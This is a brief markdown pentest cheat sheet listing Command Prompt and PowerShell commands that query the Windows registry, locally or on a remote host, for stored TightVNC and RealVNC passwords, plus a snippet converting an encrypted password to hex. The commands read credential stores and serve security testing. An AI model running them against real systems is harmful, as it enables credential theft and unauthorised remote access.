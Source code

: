 # Manual

## 01 - TightVNC

### 1.1 - Command Prompt

```
C:\> reg.exe query [\\<IP>\]HKCU\Software\TightVNC\Server"
```

### 1.2 - PowerShell

```powershell
PS C:\> Get-ItemProperty -Path "HKCU:\Software\TightVNC\Server"

PS C:\> $FormatEnumerationLimit = -1
Get-ItemProperty -Path Registry::HKLM\software\TightVNC\Server -Name ControlPassword
$password = 139, 16, 57, 246, 188, 35, 53, 209
ForEach ($hex in $password) {
[Convert]::ToString($hex, 16) }
```

## 02 - RealVNC

### 2.1 - Command Prompt

```
C:\> reg.exe query [\\<IP>\]HKCU\Software\ORL\WinVNC3\Password

C:\> reg.exe query [\\<IP>\]HKLM\SOFTWARE\RealVNC\WinVNC4 /v password
```

### 2.2 - PowerShell

```
PS C:\> Get-ItemProperty -Path "HKCU:\Software\ORL\WinVNC3\Password"

PS C:\> Get-ItemProperty -Path "HKLM:\SOFTWARE\RealVNC\WinVNC4" -Name password
```

---
## References

- [Pentestlab Blog: Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)